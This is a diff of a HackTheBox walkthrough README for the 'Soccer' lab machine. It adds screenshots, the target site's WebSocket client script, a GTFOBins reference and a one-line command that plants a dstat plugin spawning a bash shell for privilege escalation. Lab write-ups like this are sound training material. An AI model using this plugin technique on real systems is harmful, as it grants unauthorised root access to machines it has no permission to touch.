

Before and after one commit to r1skkam/HackTheBox-Walkthroughs, a Markdown page: After failed OSCP/Soccer/README.md, 2 parts joined by grey strips. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/After failed OSCP/Soccer/README.md
+++ b/After failed OSCP/Soccer/README.md
@@ -106,3 +106,53 @@ echo '10.129.208.236 soc-player.soccer.htb' |sudo tee -a /etc/hosts
 http://soc-player.soccer.htb/
 
 ![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ed5df05c-fc0a-4e36-b5c8-41994eebedd7)
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/69a6d501-9e50-4dbf-8796-651e67dd55e2)
+
+```
+<script>
+        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
+        window.onload = function () {
+
+        var btn = document.getElementById('btn');
+        var input = document.getElementById('id');
+
+        ws.onopen = function (e) {
+            console.log('connected to the server')
+        }
+        input.addEventListener('keypress', (e) => {
+            keyOne(e)
+        });
+
+        function keyOne(e) {
+            e.stopPropagation();
+            if (e.keyCode === 13) {
+                e.preventDefault();
+                sendText();
+            }
+        }
+
+        function sendText() {
+            var msg = input.value;
+            if (msg.length > 0) {
+                ws.send(JSON.stringify({
+                    "id": msg
+                }))
+            }
+            else append("????????")
+        }
+        }
+
+        ws.onmessage = function (e) {
+        append(e.data)
+        }
+
+        function append(msg) {
+        let p = document.querySelector("p");
+        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
+        // p.style.color = randomColor;
+        p.textContent = msg
+        }
+    </script>
+```
+
@@ -108,0 +201,17 @@ http://soc-player.soccer.htb/
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ffe1ec0d-6bd4-4dc3-b0a2-95d82b4e1ef6)
+
+```
+man dstat
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/09eece78-70c7-462e-b7ad-26b55135c82d)
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d055e24e-d577-47d9-8b25-dab304656f7e)
+
+
+https://gtfobins.github.io/gtfobins/dstat/
+
+```
+echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
+```
+
````
Also changed, not shown: other parts of After failed OSCP/Soccer/README.md (+57 -0 lines).
